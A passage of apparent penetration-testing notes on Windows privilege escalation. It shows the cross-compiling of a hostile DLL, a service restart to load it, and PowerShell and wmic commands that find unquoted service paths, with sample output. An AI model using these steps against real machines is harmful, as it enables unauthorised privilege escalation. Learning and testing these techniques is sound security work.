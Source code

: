```cpp
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

To fix build problems `sudo apt install mingw-w64`

#### Deliver dll and trigger its load

```powershell
PS C:\Users\steve\Documents> Restart-Service SomeService
```



### Unquoted Service Paths

When Windows starts the service, it will use the following order to try to start the executable file due to the spaces in the path and lack of quotes.

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

#### Enumerate running and stopped services

```powershell
PS C:\Users\steve> Get-CimInstance -ClassName win32_service | Select Name,State,PathName 

Name                      State   PathName
----                      -----   --------
...
GammaService                      Stopped C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

it shows a stopped service named _GammaService_. The unquoted service binary path contains multiple spaces and is therefore potentially vulnerable to this attack vector



Let's enter this command in **cmd.exe** instead of PowerShell to avoid escaping issues for the quote in the second _findstr_ command. Alternatively, we could use _Select-String_ in PowerShell.

```powershell
C:\Users\steve> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
Name                                       PathName                                                                     
...                                                                                                         
GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
